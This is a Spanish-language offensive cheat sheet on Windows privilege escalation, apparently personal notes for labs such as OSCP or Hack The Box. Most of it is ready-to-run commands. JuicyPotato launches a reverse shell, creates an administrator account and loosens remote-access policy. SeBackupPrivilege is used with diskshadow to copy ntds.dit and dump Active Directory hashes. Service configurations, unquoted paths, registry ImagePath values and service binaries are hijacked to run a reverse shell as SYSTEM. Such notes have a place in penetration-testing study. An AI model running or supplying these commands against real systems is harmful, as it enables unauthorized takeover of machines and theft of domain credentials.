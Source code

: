 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)
  - [Insecure Permissions](#Insecure-Permissions)
  - [Unquoted Service Path](#Unquoted-Service-Path)
  - [Weak Registry Permissions](#Weak-Registry-Permissions)
  - [Insecure Service Executables](#Insecure-Service-Executables)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

[Guia Hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions

**Podemos usar accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```
**En caso de tener el permiso `SERVICE_CHANGE_CONFIG` podemos aprovecharnos y modificar la propiedad `BINARY_PATH_NAME`**

Es necesario consultar si el servicio corre como SYSTEM mirando la propiedad `SERVICE_START_NAME`
```cmd
sc qc daclsvc
```
Modificamos la configuración del servicio y establecemos el BINARY_PATH_NAME (binpath) al de una reverse shell o un binario que queramos ejecutar

```cmd
sc config daclsvc binpath= "C:\tmp\reverse.exe"
```
Ponemos un socket de escucha e iniciamos el servicio

```cmd
net start daclsvc
```

### Unquoted Service Path 

[Explicación](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is)


**Primero debemos verificar que el servicio está corriendo como SYSTEM observando la propiedad `SERVICE_START_NAME` y también checkear si el nombre tiene espacios en el path mirando la propiedad `BINARY_PATH_NAME` **

```cmd
sc qc unquotedsvc
```

**Luego verificamos los permisos de la carpeta donde se ubica el binario real**
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
icacls "C:\Program Files\A Subfolder"
```
**Ahora copiamos la reverse shell en el folder final donde se situaba el binario**

```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Iniciamos el servicio**
```cmd
net start unquotedsvc
```

### Weak Registry Permissions

Consultamos el servicio `regsvc` y verificamos si está corriendo como SYSTEM (`SERVICE_START_NAME`).
```cmd
sc qc regsvc
```
Verificamos si el servicio es writable por algun grupo al que pertenezcamos, si sale `NT_AUTHORITY\Interactive` quiere decir que es modificable por cualquier usuario logueado.

```cmd
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescribimos la llave del registro ImagePath para que apunte al ejecutable reverse.exe que hemos creado

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Iniciamos un listener en Parrot y luego iniciamos el servicio para generar una shell reversa que se ejecute con privilegios de SYSTEM

```cmd
net start regsvc
```

### Insecure Service Executables

Primero debemos consultar el servicio  y verificar que se ejecuta con privilegios de SYSTEM (SERVICE_START_NAME).
```cmd
sc qc filepermsvc
```

Validamos si tenemos permisos para sobreescribir el binario del servicio `BINARY_PATH_NAME` 
```cmd
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Sobreescribimos el binario con una rev shell  e iniciamos el servicio
```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```





